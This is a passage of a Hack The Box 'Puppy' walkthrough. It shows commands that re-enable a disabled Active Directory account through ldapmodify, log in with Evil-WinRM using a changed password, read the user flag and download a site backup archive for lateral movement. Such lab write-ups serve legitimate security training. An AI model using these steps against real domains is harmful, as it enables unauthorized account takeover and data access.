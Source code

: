 `userAccountControl: 66050` Indicates that the account is disabled.

Use `ldapmodify`to modify this value:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Puppy]
└─$ ldapmodify -x -H ldap://10.10.11.70 -D "ANT.EDWARDS@PUPPY.HTB" -W << EOF
dn: CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB
changetype: modify
replace: userAccountControl
userAccountControl: 66048
EOF

Enter LDAP Password: 
modifying entry "CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB"
```
## EvilWinRM

Now we can use [Evil-WinRM](../../../3%20-%20Tags/Hacking%20Tools/Evil-WinRM.md) to access with the changed password:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Puppy]
└─$ evil-winrm -i 10.10.11.70 -u 'ADAM.SILVER' -p 'Hacker123456!' 

*Evil-WinRM* PS C:\Users\adam.silver> cd Desktop
*Evil-WinRM* PS C:\Users\adam.silver\Desktop> dir


    Directory: C:\Users\adam.silver\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         2/28/2025  12:31 PM           2312 Microsoft Edge.lnk
-ar---         9/22/2025   4:01 AM             34 user.txt


*Evil-WinRM* PS C:\Users\adam.silver\Desktop> type user.txt
{{REDACTED_FLAG}}
```
# Lateral Movement - Privilege Escalation
## Adam.Silver to Steph.Cooper

There is a `Backup`directory:

```bash
*Evil-WinRM* PS C:\> cd Backups
*Evil-WinRM* PS C:\Backups> dir


    Directory: C:\Backups


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          3/8/2025   8:22 AM        4639546 site-backup-2024-12-30.zip


*Evil-WinRM* PS C:\Backups> download site-backup-2024-12-30.zip
                                        
Info: Downloading C:\Backups\site-backup-2024-12-30.zip to site-backup-2024-12-30.zip
```
